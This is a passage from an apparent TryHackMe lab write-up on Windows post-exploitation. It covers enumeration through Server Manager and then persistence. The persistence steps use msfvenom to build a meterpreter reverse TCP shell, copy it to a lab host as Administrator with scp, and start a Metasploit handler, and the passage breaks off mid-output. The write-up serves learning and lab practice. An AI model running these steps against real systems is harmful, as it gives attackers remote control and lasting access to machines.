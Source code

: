 ![](https://amirr0r.github.io/assets/img/thm/windows/windows-post-exploitation-basics/psexec.png)

___

## Enumeration w/ Server Manager

**Server Manager** is a built in windows feature. If we already have access to a domain admin account, then we can use it to change trusts, add or remove users, look at groups. etc.

![](https://amirr0r.github.io/assets/img/thm/windows/windows-post-exploitation-basics/server-manager.png)

___

## Maintaining Access

> TODO: look at advanced backdoors and rootkits, adding users and so on.

### Persistence metasploit module

1) Generate a basic windows meterpreter reverse tcp shell

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=$(vpnip) LPORT=5555 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

2) Transfer the payload from your attacker machine to the target machine:

```bash
$ scp shell.exe Administrator@10.10.245.132:
Administrator@10.10.245.132's password: 
shell.exe       100%   72KB 559.7KB/s   00:00
```

3) Run a listener:

```bash
$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```